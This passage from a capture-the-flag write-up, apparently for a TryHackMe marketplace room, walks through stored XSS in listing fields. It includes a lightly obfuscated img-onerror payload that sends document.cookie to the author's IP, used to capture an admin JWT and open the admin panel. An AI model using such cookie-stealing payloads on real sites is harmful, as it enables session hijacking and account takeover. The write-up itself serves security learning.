 ![new marketplace message](https://i.imgur.com/4Cx7bQy.png)

Another message from system, this time informing me that the listing I reported had been reviewed, and no action was taken. <br>
This piqued my interest, because it probably meant that the server-side code would navigate to a listing after we report it.
I thought that I might be able to take advantage of this and steal an admin JWT with some cross-site-scripting.. <br>

The next thing I did was create a listing. There was a button to upload a file, but it was greyed-out and had been disabled "due to security reasons". <br>

I wanted to check and see if the title and description fields were vulnerable to XSS, so I entered a basic alert script into both of them: <br>

As soon as I saved the listing, I got the javascript alert popup on my page. <br>

![Listing vulnerable to XSS](https://i.imgur.com/ZNJHnSi.png)

Sweet, so if I could craft an XSS payload to steal the user's JWT, I might be able to grab the system's admin JWT for myself. <br>

With this in mind I Googled "cookie stealing with xss" and found [this resource](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md) with helpful info and payloads. <br>

The payload I decided to try uses an image tag with the "onerror" property to send the victim's cookie to a webserver that I control. <br>
I used the version without the infite loop problem, and modified it to reflect back to my IP. <br>

The final payload looked like this (minus the "-" characters):"<im-g sr-c-=-x on-error=-"-this-.-src=-'-http:-//10.2.2.70/?'-+-document-.-cookie; this-.-remove-Attribute-('onerror');">". <br>

I made another listing, and pasted the payload into both the title and description box. <br>

Before submitting the listing, I spun up a python3 simple http server to catch and view the request. I submitted the listing and checked my terminal: <br>

![JWT Stealing With XSS](https://i.imgur.com/8P74Exb.png)

The payload worked. My own JWT was sent to my http server in a GET request! Next, I needed to try reporting my own listing to see if I could steal the system's token. <br>

Once I reported the listing, my webserver caught another request from the Marketplace's IP, complete with another token.
Pasting it into the JWT debugger, I could see that it actually was the admin's token! <br>

![Admin's JWT Payload](https://i.imgur.com/5NCITeQ.png)

I went back to the marketplace and opened my browser's developer tools. I changed the value of my session cookie to Michael's admin token and requested the "/admin" page. This time it worked. <br>

![Marketplace Administration Panel](https://i.imgur.com/0d0LUE7.png)


> Answer: THM{c3*********************d5} <br>

---